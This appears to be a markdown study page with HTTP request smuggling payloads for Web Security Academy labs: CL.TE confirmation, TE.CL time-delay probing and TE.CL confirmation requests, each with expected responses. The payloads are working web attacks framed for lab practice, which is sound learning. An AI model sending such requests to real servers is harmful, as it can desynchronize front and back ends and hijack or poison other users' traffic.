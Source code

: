##### Confirming CL.TE

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```
Using Burp Repeater, issue the following request twice:
The second response should say: `Unrecognized method GPOST.`

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```
If the attack is successful, then the last two lines of this request are treated by the back-end server as belonging to the next request that is received.
`The second request should receive an HTTP 404 response.`

#### TE.CL

##### Probing TE.CL by Time Delay

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```
Since the front-end server uses the Transfer-Encoding header, it will forward only part of this request, omitting the X. The back-end server uses the Content-Length header, expects more content in the message body, and waits for the remaining content to arrive. This will cause an observable time delay.

##### Confirm TE.CL
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
```